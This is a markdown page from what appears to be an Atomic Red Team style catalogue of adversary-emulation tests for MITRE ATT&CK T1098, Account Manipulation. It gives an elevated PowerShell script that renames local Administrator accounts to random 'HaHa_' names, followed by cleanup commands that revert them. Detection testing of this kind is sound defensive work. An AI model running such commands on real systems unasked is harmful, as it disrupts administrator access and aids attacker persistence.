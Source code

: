 ```yaml
---
tags: [T1098, atomic_test]
filename: "[[T1098|T1098 - Account Manipulation]]"
---
```

# T1098 - Account Manipulation

## Atomic Test #1 - Admin Account Manipulate
Manipulate Admin Account Name

**Supported Platforms:** Windows


**auto_generated_guid:** 5598f7cb-cf43-455e-883a-f6008c5d46af






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHa_$x$y$z

$fmm = Get-LocalGroupMember -Group Administrators |?{ $_.ObjectClass -match "User" -and $_.PrincipalSource -match "Local"} | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        $account = $member.Name.Split("\")[-1] # strip computername\
        $originalDescription = (Get-LocalUser -Name $account).Description
        Set-LocalUser -Name $account -Description "atr:$account;$originalDescription".Substring(0,48) # Keep original name in description
        Rename-LocalUser -Name $account -NewName "HaHa_$x$y$z" # Required due to length limitation
        Write-Host "Successfully Renamed $account Account on " $Env:COMPUTERNAME
        }
    }
```

#### Cleanup Commands:
```powershell
$list = Get-LocalUser |?{$_.Description -like "atr:*"}
foreach($u in $list) {
  $u.Description -match "atr:(?<Name>[^;]+);(?<Description>.*)"
  Set-LocalUser -Name $u.Name -Description $Matches.Description
  Rename-LocalUser -Name $u.Name -NewName $Matches.Name
  Write-Host "Successfully Reverted Account $($u.Name) to $($Matches.Name) on " $Env:COMPUTERNAME
}
```
